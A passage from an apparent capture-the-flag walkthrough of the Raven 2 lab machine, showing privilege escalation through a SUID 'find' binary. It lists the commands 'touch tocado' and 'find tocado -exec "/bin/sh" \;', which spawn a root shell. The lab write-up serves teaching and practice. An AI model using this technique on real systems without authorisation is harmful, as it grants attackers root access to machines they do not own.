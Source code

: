 Now, if we check suid binaries, we can see "find" among them.


![Binary find among the suid files](img/raven2-21.png)


Now, if we create a file, such as "tocado" in the /tmp folder of the victim machine and we execute 'find file -exec code', every time that the command finds the file it will execute the following code as root.

Then, we can run:

```bash
touch tocado
find tocado -exec "whoami" \;
find tocado -exec "/bin/sh" \;
whoami
```

![Capture of privilege escalation](img/raven2-22.png)



#### Getting the flag

We just need to go to the root folder:

